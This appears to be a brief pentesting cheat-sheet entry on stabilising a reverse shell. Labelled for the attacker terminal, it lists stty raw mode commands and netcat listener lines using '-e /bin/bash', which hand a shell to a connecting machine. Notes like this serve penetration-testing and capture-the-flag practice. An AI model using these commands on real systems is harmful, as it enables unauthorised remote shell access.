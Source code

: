 shell stabilisation

ATTACKER TERMINAL

```
stty raw -echo; fg reset
```
+ enter (fix terminal)
OR
```
nc -nvlp <port> -e /bin/bash
```
```
stty raw -echo; fg
```

OR

```
rlwrap nc -nvlp <port> -e /bin/bash
```